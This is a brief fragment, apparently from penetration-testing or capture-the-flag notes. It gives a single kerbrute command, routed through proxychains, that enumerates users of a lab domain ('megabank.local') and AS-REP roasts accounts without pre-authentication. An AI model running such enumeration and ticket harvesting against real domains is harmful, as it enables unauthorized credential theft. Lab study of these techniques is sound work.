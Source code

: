 - Enumerate domain users( this also performs ASRep Roasting to dump tickets for accounts with pre auth disabled)
`proxychains kerbrute userenum --dc $IP -d megabank.local /usr/share/seclists/Usernames/Names/names.txt`